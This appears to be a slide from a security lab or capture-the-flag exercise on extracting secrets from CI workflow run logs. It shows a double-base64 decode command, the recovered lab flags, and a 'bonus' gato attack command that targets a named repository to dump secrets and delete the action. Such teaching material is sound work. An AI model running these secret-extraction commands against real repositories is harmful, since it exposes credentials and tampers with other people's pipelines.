

Lab 02: Secrets

| 7) Decode the secrets from the run logs! Our workflow used double base64 encoding, super spicy. $ echo “<base64 output from run log>” | base64 –d | base64 –d FLAG\_01=Ippei-Ki-Yay FLAG\_02=1919Bl@ckS0x! FLAG\_03=flag3secretyay \*Bonus: The automated way $ gato -s attack -t sharpbets/sharpbets-app-dev --secrets --delete-action |
| --- |

29